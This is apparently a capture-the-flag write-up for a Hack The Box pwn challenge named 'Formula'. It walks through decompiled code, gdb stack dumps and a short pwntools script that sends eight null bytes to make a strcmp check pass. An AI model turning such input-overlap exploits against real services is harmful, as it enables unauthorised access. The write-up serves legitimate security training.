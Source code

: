 ```yaml
---
title:  "[CTF] Formula"
categories: [CTF, HTB, Pwn]
---
```


<blockquote>
  <p>Marty, I found a letter from someone in my pocket that says Time Travel is possible and provides the ingredients and a secret formula. The note is not 100% readable due to the time and I cannot fully understand the handwritting either. Please help me read the note and let's get to work creating this thing!</p></blockquote>

## Understanding the challenge

The challenge presents a randomly-coloured flask with a story, and asks for the missing ingredient:
![Menu](/assets/images/Formula/menu.png)

Behind the scenes, we can understand more about the code from Ghidra’s decompiled version:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_20 [7];
  undefined8 local_19;
  undefined local_11;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  story();
  local_19 = 0x75696e6f74756c50;
  local_11 = 0x6d;
  read(0,local_20,8);
  iVar1 = strcmp(local_20,(char *)&local_19);
  if (iVar1 == 0) {
    success();
  }
  else {
    fail();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```


In terms of security protections against exploitation, the binary has most of the checkboxes ticked:
![Checksec](/assets/images/Formula/checksec.png)

The challenge reads the ingredient from user input into the variable `local_20` (8 bytes), and compares it with the hardcoded ingredient Plutonium (9 bytes) - `0x75696e6f74756c50` and `0x6d`.

## Vulnerability identification

To locate the vulnerability, we need to examine the stack before the comparison which leads to `success()` is being made:

```asm
=> 0x555555400efd <main+92>:    call   0x555555400a00 <strcmp@plt>
   0x555555400f02 <main+97>:    test   eax,eax
   0x555555400f04 <main+99>:    jne    0x555555400f0d <main+108>
   0x555555400f06 <main+101>:   call   0x555555400b9a <success>
   0x555555400f0b <main+106>:   jmp    0x555555400f12 <main+113>
   0x555555400f0d <main+108>:   call   0x555555400c40 <fail>
   0x555555400f12 <main+113>:   mov    eax,0x0
   0x555555400f17 <main+118>:   mov    rcx,QWORD PTR [rbp-0x8]
```

According to the [Linux x64 calling convention](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame), the first two function parameters are accessed via the RDI and RSI registers:

```asm
// Plutonium (hardcoded)
gdb$ x/16b $rsi
0x7fffffffde0f: 0x50    0x6c    0x75    0x74    0x6f    0x6e    0x69    0x75
0x7fffffffde17: 0x6d    0x00    0x1b    0x6d    0x5b    0xc6    0x4c    0xe2

// Ingredient (user input - ABCD)
gdb$ x/16b $rdi
0x7fffffffde08: 0x41    0x42    0x43    0x44    0x0a    0x00    0x00    0x50
0x7fffffffde10: 0x6c    0x75    0x74    0x6f    0x6e    0x69    0x75    0x6d
0x7fffffffde18: 0x00

gdb$ x/s $rsi
0x7fffffffde0f: "Plutonium"

gdb$ x/s $rdi
0x7fffffffde08: "ABCD\n"
```

So we can read 8 bytes, and the 8th one will overwrite the first letter of the first letter of the hardcoded ingredient, `0x50` (**P**). 

## Exploitation

Even if not obvious straight away, the exploitation is actually quite easy. The only option to make the two strings equal is to *make them both `NULL`*, by sending 8 zeros as the secret ingredient.


```python
from pwn import *

conn = remote('<IP>', '<PORT>')

# Receive formula
print(conn.recvrepeat(2))

conn.send('\x00' * 8)
print(conn.recvrepeat(2))

conn.close()
```

## References

* [Linux x64 calling conventions and stack frame](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame)
